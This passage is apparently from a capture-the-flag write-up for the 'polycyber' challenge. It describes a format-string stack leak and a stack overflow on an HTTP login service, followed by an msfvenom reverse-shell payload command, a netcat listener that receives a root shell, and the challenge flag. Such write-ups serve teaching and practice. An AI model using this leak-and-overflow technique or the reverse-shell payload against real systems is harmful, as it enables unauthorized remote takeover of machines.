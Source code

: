 Next, we determine where to jump. Since there is plenty of space in `local_e8` (username+password), we will jump to it. We just need to find an address in the stack that will help us calculate the address of `local_e8`. After some searching, we find that using `%94$p` as the username gives us a stack address that is always `+1008` bytes from `local_e8`.
Our exploit consists of :

First request
- Leak stack with user=%94$p&password=a

Second request:
- username = 'ok'
- password = shellcode + 'a'*(230-size(shellcode)) + ret_leak_addr + 2 (+ 2 to skip the 'ok')

To craft our shellcode, we use `msfvenom` to generate a reverse shell in x64. Additionally, since we are using HTTP, we avoid the characters `\x00`, `\x0d`, and `\x0a`:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.15 LPORT=4444 -b "\x00\x0d\x0a" -f py -o shellcode.txt
```
We then run netcat to listen on one terminal and execute the exploit on the other :
```bash
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.0.2 43064
whoami
root
```
```bash
python sol.py 
buffer addr :  0x769ffc7ff420
```
## Flag

`polycyber{L3t_th3_R3pUbl1c_b3g1n!}`
